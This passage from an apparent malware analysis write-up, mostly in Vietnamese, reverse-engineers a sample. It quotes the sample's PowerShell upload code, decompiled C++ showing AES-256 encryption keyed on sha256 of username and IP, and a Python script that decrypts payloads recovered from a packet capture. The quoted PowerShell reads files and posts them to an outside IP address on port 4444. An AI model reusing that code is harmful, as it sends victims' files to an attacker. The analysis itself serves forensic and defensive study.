$m=[Net.Http.MultipartFormDataContent]::new();$b=[Net.Http.ByteArrayContent]::new([IO.File]::ReadAllBytes($f.FullName));
$m.Add($b,'files',$f.Name);
$r=$h.PostAsync('http://51.20.98.70:4444/upload',$m).Result;
if($r.IsSuccessStatusCode)
{
	exit 0
}
else
{
	exit 1
}\""
``` 
- Cách thức malware encrypt dữ liệu (fnEncryptData):
```cpp
 if ( !CryptAcquireContextA(&phProv, 0, 0, 24u, 0xF0000000) )// PROV_RSA_AES
    return 0;
  if ( CryptCreateHash(phProv, CALG_SHA_256, 0, 0, &phHash) )
  {
    hostname_ip_str = hostname_ip;
    if ( *((_DWORD *)hostname_ip + 5) > 15u )
      hostname_ip_str = *(BYTE **)hostname_ip;
    if ( CryptHashData(phHash, hostname_ip_str, *((_DWORD *)hostname_ip + 4), 0)// tính hash sha256(username:ip)
      && CryptDeriveKey(phProv, CALG_AES_256, phHash, 0, &phKey) )// thiết lập aes key
    {                                           // tạo 16-byte IV
      if ( !CryptGenRandom(phProv, 16u, randomBytesBuffer) || !CryptSetKeyParam(phKey, KP_IV, randomBytesBuffer, 0) )
        goto LABEL_25;
      param_2 = (const void **)victimInfo_1;
      victimInfoStr = 0;
      v6 = 0;
      Srca_2 = 0;
      v18 = 0;
      v19 = 0;
      pdwDataLen_1 = *((_DWORD *)victimInfo_1 + 4);
      pdwDataLen = pdwDataLen_1;
      Srca_3 = 0;
      encrypted = pdwDataLen_1 + 17;
      if ( pdwDataLen_1 != -17 )
      {
        fnVectorAllocate((unsigned int *)&Srca_2, pdwDataLen_1 + 17);
        dwBufLen_1 = encrypted;
        victimInfoStr = Srca_2;
        memset(Srca_2, 0, encrypted);
        pdwDataLen_1 = pdwDataLen;
        v9 = (char *)victimInfoStr + dwBufLen_1;
        v6 = v19;
        v18 = v9;
        param_2 = (const void **)victimInfo_1;
        Srca_3 = victimInfoStr;
      }
      v10 = (unsigned int)param_2[5] <= 0xF;
      param_3 = param_2;
      v31 = 0;
      if ( !v10 )
        param_3 = *param_2;
      memmove(Srca_3, param_3, pdwDataLen_1);
      if ( CryptEncrypt(phKey, 0, 1, 0, (BYTE *)victimInfoStr, &pdwDataLen, encrypted) )
      {
        v29 = 0xF00000000LL;
        *(_OWORD *)finalPayload = 0;
        LOBYTE(finalPayload[0]) = 0;
        LOBYTE(v31) = 1;
        sub_1000BCA0(finalPayload, pdwDataLen + 16);
        fnAppendStr(finalPayload, randomBytesBuffer, 0x10u);// append IV + encrypted data vào 1 buffer
        fnAppendStr(finalPayload, victimInfoStr, pdwDataLen);
```
- malware tạo 1 aes-256 key = sha256("<username\>:<ip\>") và 16-byte IV được generate ngẫu nhiên sử dụng CryptGenRandom. Payload cuối cùng được tạo ra có dạng: [16-byte IV][encrypted data]
- Extract payload từ pcapng:

- script decrypt:
```python
from Crypto.Cipher import AES
import hashlib

with open('Patrick_192.168.10.129.txt', 'rb') as f:
    data = f.read()
    cipher = AES.new(
        hashlib.sha256("Patrick:192.168.10.129".encode()).digest(), 
        AES.MODE_CBC,
        iv=data[:16]
    )
    with open('Patrick.txt', 'wb') as out:
        out.write(cipher.decrypt(data[16:]))
```
- Kết quả:
